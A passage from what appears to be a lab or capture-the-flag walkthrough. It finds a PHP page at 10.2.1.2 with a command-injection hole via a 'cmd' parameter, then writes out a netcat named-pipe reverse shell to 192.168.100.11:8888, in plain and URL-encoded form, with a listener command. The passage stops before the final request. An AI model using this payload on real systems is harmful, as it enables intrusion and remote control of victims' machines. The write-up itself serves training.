 
<br/>

On the remote desktop, try to access http://10.2.1.2:

![picture 67](images/3f089a47f446ec22cf6b6d5aa3e9c3111ff24173a4a159797bb00689276cfb12.png)  

As shown in the error message, the PHP page uses `system()` call. It is likely to be accepting a parameter.

<br/>

## Remote Command Execution on 10.2.1.2

Try to append `?cmd=id`:

![picture 68](images/f2315e72a7a7535b09fe4cd8fa8e534172e9728b969bcb39002941dbd86dfd5e.png)  

As shown, this page is vulnerable to RCE. We can abuse this to obtain a reverse shell.

<br/>

Command:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.100.11 8888 >/tmp/f

rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20192.168.100.11%208888%20%3E%2Ftmp%2Ff
```

<br/>

Launch a nc listener locally:

```
nc -nlvp 8888
```

<br/>

Then make a request on the remote desktop machine:
